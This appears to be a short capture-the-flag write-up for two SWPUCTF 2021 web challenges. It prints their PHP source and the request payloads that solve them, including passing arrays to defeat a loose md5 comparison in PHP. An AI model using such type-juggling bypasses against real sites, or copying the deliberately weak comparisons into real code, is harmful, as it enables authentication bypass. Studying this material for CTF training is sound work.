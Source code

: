 # SWPUCTF 2021

## Web

### jicao

```php
<?php
highlight_file('index.php');
include("flag.php");
$id=$_POST['id'];
$json=json_decode($_GET['json'],true);
if ($id=="wllmNB"&&$json['x']=="wllm")
{echo $flag;}
?>
```

Payload 如下

```
Body: id=wllmNB
Param: json={"x":"wllm"}
```

### easy\_md5

```php
<?php 
 highlight_file(__FILE__);
 include 'flag2.php';
 
if (isset($_GET['name']) && isset($_POST['password'])){
    $name = $_GET['name'];
    $password = $_POST['password'];
    if ($name != $password && md5($name) == md5($password)){
        echo $flag;
    }
    else {
        echo "wrong!";
    }
 
}
else {
    echo 'wrong!';
}
?>
```

Payload 如下

```
Body: password[]=2
Param: name[]=1
```
